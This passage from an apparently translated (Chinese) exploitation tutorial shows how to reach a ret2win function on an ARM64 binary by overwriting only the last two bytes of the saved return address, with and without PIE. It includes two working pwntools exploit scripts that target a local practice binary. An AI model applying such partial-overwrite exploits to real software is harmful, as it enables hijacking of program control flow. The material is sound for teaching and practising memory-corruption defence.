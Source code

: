 ### Off-by-1

实际上，这更像是在栈中存储的 PC 的 off-by-2。我们将只用 `0x06c4` 覆盖 **最后 2 个字节**，而不是覆盖所有的返回地址。
```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p16(0x06c4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```
<figure><img src="../../../images/image (1212).png" alt="" width="375"><figcaption></figcaption></figure>

您可以在 ARM64 中找到另一个 off-by-one 示例，链接为 [https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/](https://8ksec.io/arm64-reversing-and-exploitation-part-9-exploiting-an-off-by-one-overflow-vulnerability/)，这是一个虚构漏洞中的真实 off-by-**one**。

## 使用 PIE

> [!TIP]
> 编译二进制文件 **时不要使用 `-no-pie` 参数**

### Off-by-2

在没有泄漏的情况下，我们不知道获胜函数的确切地址，但我们可以知道该函数相对于二进制文件的偏移量，并且知道我们正在覆盖的返回地址已经指向一个接近的地址，因此可以泄漏到 win 函数的偏移量 (**0x7d4**) 并仅使用该偏移量：

<figure><img src="../../../images/image (1213).png" alt="" width="563"><figcaption></figcaption></figure>
```python
from pwn import *

# Configuration
binary_name = './ret2win'
p = process(binary_name)

# Prepare the payload
offset = 72
ret2win_addr = p16(0x07d4)
payload = b'A' * offset + ret2win_addr

# Send the payload
p.send(payload)

# Check response
print(p.recvline())
p.close()
```
{{#include ../../../banners/hacktricks-training.md}}
